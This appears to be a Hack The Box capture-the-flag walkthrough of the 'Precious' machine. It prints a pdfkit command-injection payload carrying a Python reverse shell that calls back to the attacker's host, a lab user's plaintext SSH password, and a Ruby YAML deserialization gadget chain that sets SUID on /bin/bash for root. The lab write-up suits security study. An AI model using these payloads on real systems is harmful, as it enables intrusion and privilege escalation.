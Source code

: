 # Precious

<img width="426" alt="Precious" src="https://github.com/Lynk4/HTB-Writeups/assets/44930131/4e1c83a0-a1c9-42c7-a7b8-0cc0bd8d7007">

#### Information Gathering:

We'll begin by enumerating hosts with nmap:

![nmap](https://github.com/Lynk4/HTB-Writeups/assets/44930131/b964baba-0876-4000-93ea-f788bd3a3e86)

The scan shows us that port 22 and port 80 are open. We can also see that port 80 redirects to precious.htb. In order to access the site you will need to add precious.htb to your /etc/hosts file.

Let's check the Website:

![web](https://github.com/Lynk4/HTB-Writeups/assets/44930131/5f705ea3-948b-4e60-b3f3-5ed66d1df607)

The web server appears to provide a service that transforms web pages to PDF files. Let's put this feature to the test.

To achieve this, we'll need to set up a server python on our system for testing purposes:

![pythonwe](https://github.com/Lynk4/HTB-Writeups/assets/44930131/458d259c-03c8-4ffa-a554-9c5fa39a1e7a)

Once your server is up and running, return to precious.htb and input the IP address and port number of your server, then click submit. A pdf file should be downloaded to your PC as intended. This is how mine looks:

![exploit_1](https://github.com/Lynk4/HTB-Writeups/assets/44930131/fdce61a3-bae2-4d6d-a1cb-21bb1e33deff)

Let's check out the properties:

![pdfkit](https://github.com/Lynk4/HTB-Writeups/assets/44930131/b258ea23-12cf-4b22-94df-f145f5a79798)

What's remarkable about this file is that it was created using pdfkit v0.8.6, a PDF document production library. A quick Google search for any known vulnerabilities turns up CVE-2022-25765, indicating that this version of pdfkit is vulnerable to command injections. More information regarding the CVE may be found here:

https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Now let's test it..by using a pwd command

```
http://10.10.14.12:8000/?name=%20`pwd`
```

![pwd](https://github.com/Lynk4/HTB-Writeups/assets/44930131/e5f4d951-6e6c-4ae7-89a1-bd13d5d643b2)

We got the result....

![web_1](https://github.com/Lynk4/HTB-Writeups/assets/44930131/5bae0def-7764-4f91-8bc5-18d021a832e8)

Now we can now use Python to create our reverse shell. And use the CVE as a guide. Make sure you have a Netcat listener running on your PC to receive the connection.

My payload looks like this:

```
http://10.10.14.12:8000/?name=%20`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4545));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

You should obtain your connection after submitting your payload to the site.

![rev](https://github.com/Lynk4/HTB-Writeups/assets/44930131/df64f3ce-dc7c-4a69-8623-f4f06c619ce9)

Foothold:

As you can see, we were able to access the server as the user ruby. We discover two folders when we navigate to the /home directory. One for our Ruby user and one for a Henry user. A file called user.txt may be found in Henry's directory. That must be our first flag. Unfortunately, we do not currently have access to it.

Looking around a little further, we discover the config file in the /home/ruby/.bundle directory. The password for user Henry is revealed when the contents of config are displayed:

![henry](https://github.com/Lynk4/HTB-Writeups/assets/44930131/a703245d-54ef-463f-b9a4-0a0cd4f999cf)


Using henry’s credentials, let’s try to ssh into the server:
#### henry:Q3c1AqGHtoI0aXAYFH

![ssh_henry](https://github.com/Lynk4/HTB-Writeups/assets/44930131/b9e7cec9-396c-4402-8f32-49ea6e84fbd3)

You may now read the user.txt file and capture the first flag!

![user](https://github.com/Lynk4/HTB-Writeups/assets/44930131/98b34106-d1dd-4ed4-befa-290af7f1f453)

### Privilege Escalation:

Let's explore what we can do now that we're logged in as user henry. To see what we can do with this user account, use:

```
sudo -l
```

![priv](https://github.com/Lynk4/HTB-Writeups/assets/44930131/4c333e08-6154-4d8b-b92e-fd6609ae82be)

Henry appears to be able to run the file update_depencies.rb as root.

It uses YAML.load, which is vulnerable to deserialization attack. You can read more about YAML deserialization attacks here:

https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md

In order for our remote code execution to work, we will need to craft a payload inside a yml file called dependencies.yml. Using the above link, I created the file below on the server, changing the git_set to id:



save it as a dependencies.yml in the remote machine...


```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Run the file:

```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

And finally run:

```
bash -p
```

You made it to the finish line! Now collect your prize:

![root](https://github.com/Lynk4/HTB-Writeups/assets/44930131/c6cfbeb1-19ce-41fc-8358-553c822cd801)

You just pwned Precious!........

